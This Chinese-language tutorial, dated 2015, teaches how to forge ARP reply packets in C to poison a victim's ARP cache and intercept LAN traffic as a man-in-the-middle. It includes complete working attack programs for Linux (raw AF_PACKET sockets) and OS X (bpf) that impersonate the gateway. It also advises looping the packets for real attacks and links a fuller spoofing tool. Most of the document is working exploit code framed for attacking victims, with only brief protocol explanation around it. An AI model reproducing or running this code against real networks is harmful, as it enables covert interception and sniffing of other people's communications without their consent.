


ARP欺骗包的制作--c语言
中间人攻击很难实现吗？
还是易如反掌的简单？
利用ARP欺骗包，轻松实现局域网内中间人攻击；
通过ARP攻击截获流量，为嗅探做准备。
语言版本: 中
发布日期：2015-09-10
更新日期：2015-09-10
作者：lngost
1. ARP简单介绍
(a) ARP协议
* ARP - Address Resolution Protocol，地址解析协议。用来将网络层（第三层）地址，解析为链路层（第二层）地址。
* 在以太网(Ethernet)中，当主机准备发送一个包含目标ip地址的包时，通过查询自身arp缓存表、或发送arp请求包来获取目标主机对应的mac地址，如此就完成了一次地址解析。
* 通常所说的IP地址即属于网络层地址，而MAC地址、以太网地址等属于链路层地址。
* 目前的局域网主要使用了以太网技术，处在其中的计算机通过以太网帧(Ethernet frame)来通信。以太网帧当中，就包含了通信双方的以太网地址（也称为MAC地址、硬件地址等）。
* 虽然一般情况下每台局域网内的主机都有一个诸如192.168.1.5之类的内网ip地址，但是内网通信时依然需要找到对应的mac地址来进行包的转发，这也就是arp协议的工作了。
* 显然的是，局域网内即使不使用ip协议，依然可以通过以太网协议来通信，所以arp攻击中我们构建的arp包就能够被对方接收到。
(b) ARP攻击原理
* arp攻击的目的是截获主机之间的通信流量，比如一台计算机和网关之间的通信，让原本不经过我们的流量，给他引导过来，然后就可以进行诸如嗅探(sniff)之类的工作了。
* 要怎么做呢？简单地说，就是刷新对方的arp缓存表，让对方通信的原目标mac地址变为我方的mac地址。
* 如何能够刷新对方的arp缓存表？也很简单，发送arp响应包给对方即可，即使对方并没有发送过arp请求。
* 需要注意的是，arp协议是将ip和mac地址对应转换，倘若2台主机间不使用ip协议来通信，那arp攻击也就失效了。
* 又或者，对方主机使用了静态arp绑定，将ip和mac的对应事先绑定了，那么arp攻击也失效了。
* 当然现实情况是，arp攻击十分有效。许多网络层之上的服务都依赖ip协议，而静态arp绑定也很少有人去做。
2. 开始前的准备
(a) 以太网帧结构
* 以上是简化了的帧结构，去掉了不需要我们手动构建的帧校验序列(FCS)部分。
* 帧类型对于我们使用的arp协议是0x0806
* payload中即存放arp协议的内容。
(b) ARP包结构
* 硬件类型，一般以太网设备为0x0001
* 协议类型，虽然名称不一样，但可选择的值是和帧类型共用的，这里对应ip协议为0x0800
* 硬件地址长度，0x06代表6个字节长
* 协议地址长度，0x04
* 操作，发送arp请求包为0x0001，发送arp响应包为0x0002
* 剩下的就是地址没什么特别的
(c) 编程提示
* 我们将分别在Linux和OSX这两个平台上编写和讲解代码。
* 需注意这两个平台均遵循POSIX协议，有很多预定义的部分可以共用。
* 唯一区别在于直接发送链路层封包所用的方式不同：
Linux中我们使用AF_PACKET和SOCK_RAW创建socket来发送链路层包；
OSX中没有预定义AF_PACKET，所以直接使用bpf发送链路层包。
* 文章最后介绍libpcap，一个跨平台的网络数据包处理的函数库。
3. Linux平台 -- AF_PACKET, SOCK_RAW
* 网关(gateway)位置：ip: 192.168.1.1
* 目标(victim)平台信息：known ip: 192.168.1.3
* 我方(attacker)平台信息：Ubuntu_14.04_desktop_x86_64 GNU/Linux
$ ifconfig
eth0 Link encap:Ethernet HWaddr aa:aa:aa:aa:aa:aa
inet addr:192.168.1.2 Bcast:192.168.1.255 Mask:255.255.255.0
...
ARP reply packet captured by Wireshark:
+----------------------------------------------------------------------------------------------------------+
Source | Destination | Protocol | Length | Info
+----------------------------------------------------------------------------------------------------------+
Gateway_cc:cc:cc | aa:aa:aa:aa:aa:aa | ARP | 42 | 192.168.1.3 is at bb:bb:bb:bb:bb:bb
+----------------------------------------------------------------------------------------------------------+
* 攻击目的：将由victim流向gateway方向的通信截获。
* 方法：发送伪造的arp响应包给victim，让其arp缓存表中与gateway的ip对应的mac地址变为我方mac地址。
| 包含的头文件 | 说明 |
|---|---|
|
<stdio.h> <stdlib.h> <string.h> <errno.h> |
一些常用函数和定义 |
|
<sys/types.h> <sys/socket.h> |
创建socket所需的socket()函数 AF_PACKET SOCK_RAW 能够发送无连接的数据报的函数 sendto() |
| <net/ethernet.h> |
以太网帧: struct ether_header ETHERTYPE_ARP ETHER_ADDR_LEN |
| <netinet/if_ether.h> |
ARP包: struct ether_arp ARPHRD_ETHER ETHERTYPE_IP ARPOP_REPLY 包含了来自<linux/if_ether.h>的 ETH_P_ARP |
| <arpa/inet.h> | 主机字节至网络字节顺序转换函数 htons() |
| <netpacket/packet.h> | 供AF_PACKET socket使用的sockaddr: struct sockaddr_ll |
| <net/if.h> | 通过本机网络接口名称获取接口索引号的函数 if_nametoindex() |
// arp poison packet sample on linux by lngost
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <errno.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <net/ethernet.h>
#include <netinet/if_ether.h>
#include <arpa/inet.h>
#include <netpacket/packet.h>
#include <net/if.h>
// const items
const char INTERFACE[] = "eth0";
const u_char TARGET_MAC[] = {0xbb,0xbb,0xbb,0xbb,0xbb,0xbb}; //victim's mac
const u_char SOURCE_MAC[] = {0xaa,0xaa,0xaa,0xaa,0xaa,0xaa}; //attacker's mac
const u_char TARGET_IP[] = {192,168,1,3}; //victim's ip
const u_char SOURCE_IP[] = {192,168,1,1}; //gateway's ip, 这里很重要，因为我们要假装是网关，所以用网关的ip
// main function
int main(int argc, char **argv) {
int soc;
u_char frame[42]; //total length of ethernet head plus arp packet is 42 octets
// create socket -- 创建socket(套接字)
soc = socket(AF_PACKET, SOCK_RAW, htons(ETH_P_ARP));
if(soc == -1) {
perror("socket() failed");
exit(EXIT_FAILURE);
}
printf("* Socket created.\n");
// create arp frame -- 构建arp帧，其实就是将以太网头部和arp包组合，存入frame[]，前14字节为以太网头，后28字节为arp包
// 这里使用了2个预先定义好的struct，很方便，不需要我们自己纯手工构建arp帧了
struct ether_header ehead;
struct ether_arp earp;
memcpy(ehead.ether_dhost, TARGET_MAC, ETHER_ADDR_LEN);
memcpy(ehead.ether_shost, SOURCE_MAC, ETHER_ADDR_LEN);
ehead.ether_type = htons(ETHERTYPE_ARP);
earp.arp_hrd = htons(ARPHRD_ETHER);
earp.arp_pro = htons(ETHERTYPE_IP);
earp.arp_hln = ETHER_ADDR_LEN;
earp.arp_pln = 4;
earp.arp_op = htons(ARPOP_REPLY);
memcpy(earp.arp_sha, SOURCE_MAC, ETHER_ADDR_LEN);
memcpy(earp.arp_spa, SOURCE_IP, 4);
memcpy(earp.arp_tha, TARGET_MAC, ETHER_ADDR_LEN);
memcpy(earp.arp_tpa, TARGET_IP, 4);
memcpy(frame, &ehead, sizeof(ehead));
memcpy(frame + sizeof(ehead), &earp, sizeof(earp));
printf("* ARP frame created.\n");
// make sockaddr_ll ready for sendto() function -- 用作sendto()函数中的参数，此处主要是指定一个网络接口
struct sockaddr_ll destaddr;
destaddr.sll_family = AF_PACKET;
if((destaddr.sll_ifindex = if_nametoindex(INTERFACE)) == 0) {
perror("if_nametoindex() failed");
exit(EXIT_FAILURE);
}
destaddr.sll_halen = htons(ETHER_ADDR_LEN);
printf("* struct sockaddr_ll destaddr ready.\n");
// send packet to poison -- 将我们之前伪造好的arp响应包发送出去
if(sendto(soc, frame, sizeof(frame), 0, (struct sockaddr *)&destaddr, sizeof(destaddr)) == -1) {
perror("sendto() failed");
exit(EXIT_FAILURE);
}
printf("* Packet sent.\n");
// close socket -- 完成后关闭socket
close(soc);
printf("* Socket closed.\n");
return 0;
}
* 编译并运行，linux下通常需要root权限或者使用sudo来发送链路层包，否则会提示权限错误。
* 至此我们就完成了一次arp响应包的发送，如果victim用Wireshark抓包的话，就可以看到抓到的包是这个样子的：
ARP reply packet captured by Wireshark: +----------------------------------------------------------------------------------------------------------+ Source | Destination | Protocol | Length | Info +----------------------------------------------------------------------------------------------------------+ aa:aa:aa:aa:aa:aa | bb:bb:bb:bb:bb:bb | ARP | 42 | 192.168.1.1 is at aa:aa:aa:aa:aa:aa +----------------------------------------------------------------------------------------------------------+ * 就是由 aa:aa:aa:aa:aa:aa 发往 bb:bb:bb:bb:bb:bb 的arp包，告诉 bb:bb:bb:bb:bb:bb ，192.168.1.1 在 aa:aa:aa:aa:aa:aa 这里。
* 需注意的是，以上代码仅仅发送了一次arp包，而现实攻击中往往需要循环地发送以防止arp缓存被其他主机更新，比如网关。
4. OSX平台 -- bpf (Berkeley Packet Filter)
* 网关(gateway)位置：ip: 192.168.1.1
* 目标(victim)平台信息：known ip: 192.168.1.3
* 我方(attacker)平台信息：OS_X_10.10_Yosemite
$ ifconfig
en0: ...
ether aa:aa:aa:aa:aa:aa
inet 192.168.1.2 netmask 0xffffff00 broadcast 192.168.1.255
...
ARP reply packet captured by Wireshark:
+----------------------------------------------------------------------------------------------------------+
Source | Destination | Protocol | Length | Info
+----------------------------------------------------------------------------------------------------------+
Gateway_cc:cc:cc | aa:aa:aa:aa:aa:aa | ARP | 42 | 192.168.1.3 is at bb:bb:bb:bb:bb:bb
+----------------------------------------------------------------------------------------------------------+
* 攻击目的：将由victim流向gateway方向的通信截获。
* 方法：发送伪造的arp响应包给victim，让其arp缓存表中与gateway的ip对应的mac地址变为我方mac地址。
| 包含的头文件 | 说明 |
|---|---|
|
<stdio.h> <stdlib.h> <string.h> <errno.h> |
一些常用函数和定义 |
|
<sys/types.h> <sys/time.h> <sys/ioctl.h> <net/bpf.h> <sys/socket.h> <net/if.h> |
查询 man bpf 得出的需要包含的头文件； 包括对设备io通道进行管理的函数 ioctl() 另外，使用 BIOSETIF 需包含 <sys/socket.h> 和 <net/if.h> ioctl 需要用到的 struct ifreq |
|
<unistd.h> <fcntl.h> |
打开/dev/bpf*文件所需的open() open()所需参数 O_WRONLY，只写 close() write() |
| <net/ethernet.h> |
以太网帧: struct ether_header ETHERTYPE_ARP ETHER_ADDR_LEN |
| <netinet/if_ether.h> |
ARP包: struct ether_arp ARPHRD_ETHER ETHERTYPE_IP ARPOP_REPLY |
| <arpa/inet.h> | 主机字节至网络字节顺序转换函数 htons() |
// arp poison packet sample on osx_10.10 by lngost
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <errno.h>
#include <sys/types.h>
#include <sys/time.h>
#include <sys/ioctl.h>
#include <net/bpf.h>
#include <sys/socket.h>
#include <net/if.h>
#include <unistd.h>
#include <fcntl.h>
#include <net/ethernet.h>
#include <netinet/if_ether.h>
#include <arpa/inet.h>
//const items
#define DEV_PLEN 12 //device path length, 设备路径长度。比如"/dev/bpf255"，最长11个字节加最后一位终止符，共12字节
const char INTERFACE[] = "en0";
const u_char TARGET_MAC[] = {0xbb,0xbb,0xbb,0xbb,0xbb,0xbb}; //victim's mac
const u_char SOURCE_MAC[] = {0xaa,0xaa,0xaa,0xaa,0xaa,0xaa}; //attacker's mac
const u_char TARGET_IP[] = {192,168,1,3}; //victim's ip
const u_char SOURCE_IP[] = {192,168,1,1}; //gateway's ip, 这里也一样，因为我们要假装是网关，所以用网关的ip
//main function
int main(int argc, char **argv) {
int bpf = -1;
int devno = 0;
char dev[DEV_PLEN];
u_char frame[42];
//create arp frame -- 与之前相同，创建一个42字节长的arp帧
struct ether_header ehead;
struct ether_arp earp;
memcpy(ehead.ether_dhost, TARGET_MAC, ETHER_ADDR_LEN);
memcpy(ehead.ether_shost, SOURCE_MAC, ETHER_ADDR_LEN);
ehead.ether_type = htons(ETHERTYPE_ARP);
earp.arp_hrd = htons(ARPHRD_ETHER);
earp.arp_pro = htons(ETHERTYPE_IP);
earp.arp_hln = ETHER_ADDR_LEN;
earp.arp_pln = 4;
earp.arp_op = htons(ARPOP_REPLY);
memcpy(earp.arp_sha, SOURCE_MAC, ETHER_ADDR_LEN);
memcpy(earp.arp_spa, SOURCE_IP, 4);
memcpy(earp.arp_tha, TARGET_MAC, ETHER_ADDR_LEN);
memcpy(earp.arp_tpa, TARGET_IP, 4);
memcpy(frame, &ehead, sizeof(ehead));
memcpy(frame + sizeof(ehead), &earp, sizeof(earp));
printf("* ARP frame created.\n");
// find available bpf device -- 找到空闲的bpf设备
while(bpf < 0) {
snprintf(dev, DEV_PLEN, "/dev/bpf%d", devno);
bpf = open(dev, O_WRONLY);
++devno;
if(devno > 255) {
printf("/dev/bpf* full.\n");
exit(EXIT_FAILURE);
}
}
printf("* /dev/bpf%d available.\n", --devno);
// bound bpf to an interface -- 通过ioctl将bpf与网络接口进行绑定
struct ifreq boundif;
strncpy(boundif.ifr_name, INTERFACE, strlen(INTERFACE));
if(ioctl(bpf, BIOCSETIF, &boundif) < 0) {
perror("ioctl() failed");
close(bpf);
exit(EXIT_FAILURE);
}
printf("* Interface %s bound.\n", INTERFACE);
// write to bpf -- 直接写入bpf即可发送，因为arp帧的头部已经包含了目标地址信息
if(write(bpf, frame, sizeof(frame)) < 0) {
perror("write() failed");
close(bpf);
exit(EXIT_FAILURE);
}
printf("* Done write to bpf.\n");
close(bpf);
return 0;
}
* 编译并运行，通常在OSX下只要有访问/dev/bpf的权限即可。
* 同样，如果victim用Wireshark抓包就能发现我们发送的arp包了。
* 以上代码也是只发送了一次arp包，现实攻击中往往需要循环发送。
5. 跨平台实现之libpcap介绍
* 从以上代码可以发现，虽然共同遵守POSIX标准，但其提供的接口还是不一样的(只是提供的接口不一样，底层还是一样的，AF_PACKET其实还是使用了bpf，但linux上不直接提供bpf接口)。
* 因此想要跨平台实现的话，可以使用libpcap函数库。
* libpcap提供了发送、接收、过滤等一系列接口，用于完成一个相对完善的arp攻击工具是足够了。
* 比如一个相对完善的arp攻击工具差不多有这些功能：
主机发现；
主动发送arp请求包获取目标mac地址；
接收过滤返回的arp响应包得到目标mac地址；
循环arp包的发送；
攻击结束后还原目标arp缓存表；
如果还能够实现转发功能就更好了。
附件：arpspoofmod源码
* arpspoofmod实现了以下几点：
主动发送arp请求包获取目标mac地址；
接收过滤返回的arp响应包得到目标mac地址；
循环arp包的发送；
截获单向或双向通信流量；
攻击结束后还原目标arp缓存表。
* 源码链接：https://github.com/lngost/arpspoofmod